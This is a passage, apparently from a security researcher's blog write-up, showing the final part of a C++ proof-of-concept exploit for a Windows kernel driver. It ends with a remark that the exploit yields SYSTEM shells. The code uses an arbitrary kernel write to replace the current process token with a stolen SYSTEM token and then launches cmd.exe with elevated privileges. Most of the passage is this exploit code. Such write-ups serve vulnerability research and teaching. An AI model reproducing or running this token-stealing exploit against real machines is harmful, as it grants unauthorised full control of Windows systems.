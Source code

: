 ```c++

            // Apply handle RefCnt to stolen token and replace our current with stolen
            ULONGLONG stolen = sys_token + handle_ref;
            arbitrary_write(DriverHandle, curr_eproc + TOKEN_OFFSET, stolen);

            CloseHandle(DriverHandle);

            printf_s("\t[~~] Enjoy the Shell!\n\n");

            // Spawn elevated SYSTEM shell
            system("cmd.exe");
            exit(0);
        }
    }
    printf_s("[!!] PspSystemQuotaBlock Not Found, exiting...");
}
```

Finally, I can get around to using the proof of concept to pop some SYSTEM shells. It looks like it works, though as mentioned - mileage may vary based on version, build, and patching.  

<figure>